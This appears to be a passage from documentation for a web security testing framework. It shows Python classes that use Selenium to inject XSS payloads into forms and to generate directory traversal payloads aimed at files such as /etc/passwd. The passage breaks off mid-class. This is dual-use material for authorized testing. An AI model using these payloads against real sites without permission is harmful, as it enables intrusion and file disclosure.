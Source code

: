 ```python
            "<img src=x onerror=alert('XSS')>",
            "javascript:alert('XSS')",
            "<svg onload=alert('XSS')>",
            "';alert('XSS');//"
        ])

    def get_payloads(self):
        yield from self.payload_generator()

    def execute_step(self, driver: WebDriver, payload: str):
        driver.get(self.target_url)
        
        # Find and fill input field
        input_field = driver.find_element(By.CSS_SELECTOR, self.input_selector)
        input_field.clear()
        input_field.send_keys(payload)
        
        # Submit form
        submit_button = driver.find_element(By.CSS_SELECTOR, self.submit_selector)
        submit_button.click()

    def verify_result(self, driver: WebDriver) -> bool:
        # Check if payload is reflected in page source
        page_source = driver.page_source
        return any(payload in page_source for payload in [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "<svg onload=alert('XSS')>"
        ])
```

### Advanced Custom TTP

```python
from scythe.core.ttp import TTP
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import TimeoutException, NoSuchElementException
import time

class AdvancedDirectoryTraversalTTP(TTP):
    def __init__(self, target_url: str, file_param: str = "file"):
        super().__init__(
            name="Directory Traversal",
            description="Advanced directory traversal testing with multiple techniques"
        )
        self.target_url = target_url
        self.file_param = file_param
        self.payloads = self._generate_payloads()
        self.successful_payloads = []

    def _generate_payloads(self):
        """Generate comprehensive directory traversal payloads"""
        base_payloads = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\drivers\\etc\\hosts",
            "/etc/passwd",
            "C:\\windows\\system32\\drivers\\etc\\hosts",
            "....//....//....//etc/passwd",
            "..%2F..%2F..%2Fetc%2Fpasswd",
            "..%252F..%252F..%252Fetc%252Fpasswd"
        ]
```